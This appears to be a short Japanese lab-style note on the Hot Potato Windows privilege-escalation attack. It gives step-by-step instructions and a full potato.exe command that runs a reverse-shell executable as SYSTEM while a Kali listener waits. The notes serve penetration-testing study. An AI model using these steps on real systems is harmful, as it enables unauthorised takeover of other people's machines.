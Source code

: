 Hot Potatoは、スプーフィング攻撃とNTLMリレー攻撃を使用してSYSTEM権限を獲得する攻撃の名前です。 この攻撃は、NTLMを使用して偽のHTTPサーバーにSYSTEMユーザーとして認証されるようにWindowsをだまし討ちします。この攻撃は、<span style="color:red;">Windows 7、8、Windows 10の初期バージョン</span>、およびそれらのサーバーに対応するものにおいて動作します。
# Privilege Escalation
(注：この手順は<span style="color:red;">Windows 7</span>の場合です。）
1. potato.exe exploit の実行ファイルを Windows にコピーします。
2. Kaliでリスナーを開始する。
3. エクスプロイトを実行する。
```
.\potato.exe -ip 192.168.100.153 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```
4. Windows Defenderの更新を待つか、手動で更新を起動します。